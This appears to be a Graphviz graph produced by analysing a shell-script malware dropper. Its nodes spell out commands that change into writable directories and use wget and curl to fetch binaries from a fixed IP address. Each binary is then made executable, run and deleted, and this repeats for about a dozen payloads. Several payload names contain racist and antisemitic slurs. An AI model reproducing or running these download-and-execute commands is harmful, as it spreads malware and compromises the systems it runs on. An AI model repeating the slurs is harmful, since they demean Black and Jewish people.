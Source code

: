 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://159.203.69.152/YjDIEW "];
10 -> 12 [label=";,"];
12 [label="curl -O http://159.203.69.152/YjDIEW "];
12 -> 14 [label=";,"];
14 [label="chmod +x YjDIEW "];
14 -> 16 [label=";,"];
16 [label="./YjDIEW "];
16 -> 18 [label=";,"];
18 [label="rm -rf YjDIEW "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://159.203.69.152/JfUE "];
30 -> 32 [label=";,"];
32 [label="curl -O http://159.203.69.152/JfUE "];
32 -> 34 [label=";,"];
34 [label="chmod +x JfUE "];
34 -> 36 [label=";,"];
36 [label="./JfUE "];
36 -> 38 [label=";,"];
38 [label="rm -rf JfUE "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://159.203.69.152/INSANEMEME "];
50 -> 52 [label=";,"];
52 [label="curl -O http://159.203.69.152/INSANEMEME "];
52 -> 54 [label=";,"];
54 [label="chmod +x INSANEMEME "];
54 -> 56 [label=";,"];
56 [label="./INSANEMEME "];
56 -> 58 [label=";,"];
58 [label="rm -rf INSANEMEME "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://159.203.69.152/WEEDISGR8 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://159.203.69.152/WEEDISGR8 "];
72 -> 74 [label=";,"];
74 [label="chmod +x WEEDISGR8 "];
74 -> 76 [label=";,"];
76 [label="./WEEDISGR8 "];
76 -> 78 [label=";,"];
78 [label="rm -rf WEEDISGR8 "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://159.203.69.152/HIGHSOCIETY "];
90 -> 92 [label=";,"];
92 [label="curl -O http://159.203.69.152/HIGHSOCIETY "];
92 -> 94 [label=";,"];
94 [label="chmod +x HIGHSOCIETY "];
94 -> 96 [label=";,"];
96 [label="./HIGHSOCIETY "];
96 -> 98 [label=";,"];
98 [label="rm -rf HIGHSOCIETY "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://159.203.69.152/PARAZITE "];
110 -> 112 [label=";,"];
112 [label="curl -O http://159.203.69.152/PARAZITE "];
112 -> 114 [label=";,"];
114 [label="chmod +x PARAZITE "];
114 -> 116 [label=";,"];
116 [label="./PARAZITE "];
116 -> 118 [label=";,"];
118 [label="rm -rf PARAZITE "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://159.203.69.152/H4RMl3SS "];
130 -> 132 [label=";,"];
132 [label="curl -O http://159.203.69.152/H4RMl3SS "];
132 -> 134 [label=";,"];
134 [label="chmod +x H4RMl3SS "];
134 -> 136 [label=";,"];
136 [label="./H4RMl3SS "];
136 -> 138 [label=";,"];
138 [label="rm -rf H4RMl3SS "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://159.203.69.152/HarmlessNET "];
150 -> 152 [label=";,"];
152 [label="curl -O http://159.203.69.152/HarmlessNET "];
152 -> 154 [label=";,"];
154 [label="chmod +x HarmlessNET "];
154 -> 156 [label=";,"];
156 [label="./HarmlessNET "];
156 -> 158 [label=";,"];
158 [label="rm -rf HarmlessNET "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://159.203.69.152/capNIGGRz "];
170 -> 172 [label=";,"];
172 [label="curl -O http://159.203.69.152/capNIGGRz "];
172 -> 174 [label=";,"];
174 [label="chmod +x capNIGGRz "];
174 -> 176 [label=";,"];
176 [label="./capNIGGRz "];
176 -> 178 [label=";,"];
178 [label="rm -rf capNIGGRz "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://159.203.69.152/YallRJews "];
190 -> 192 [label=";,"];
192 [label="curl -O http://159.203.69.152/YallRJews "];
192 -> 194 [label=";,"];
194 [label="chmod +x YallRJews "];
194 -> 196 [label=";,"];
196 [label="./YallRJews "];
196 -> 198 [label=";,"];
198 [label="rm -rf YallRJews "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://159.203.69.152/iJustNutted "];
210 -> 212 [label=";,"];
212 [label="curl -O http://159.203.69.152/iJustNutted "];
212 -> 214 [label=";,"];
214 [label="chmod +x iJustNutted "];
214 -> 216 [label=";,"];
216 [label="./iJustNutted "];
216 -> 218 [label=";,"];
218 [label="rm -rf iJustNutted "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://159.203.69.152/Jackkintoasock "];
230 -> 232 [label=";,"];
232 [label="curl -O http://159.203.69.152/Jackkintoasock "];
232 -> 234 [label=";,"];
234 [label="chmod +x Jackkintoasock "];
234 -> 236 [label=";,"];
236 [label="./Jackkintoasock "];
236 -> 238 [label=";,"];
238 [label="rm -rf Jackkintoasock "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://159.203.69.152/mcdonaldsW1FI "];
250 -> 252 [label=";,"];
252 [label="curl -O http://159.203.69.152/mcdonaldsW1FI "];
252 -> 254 [label=";,"];
254 [label="chmod +x mcdonaldsW1FI "];
254 -> 256 [label=";,"];
256 [label="./mcdonaldsW1FI "];
256 -> 257 [label=";,"];
}
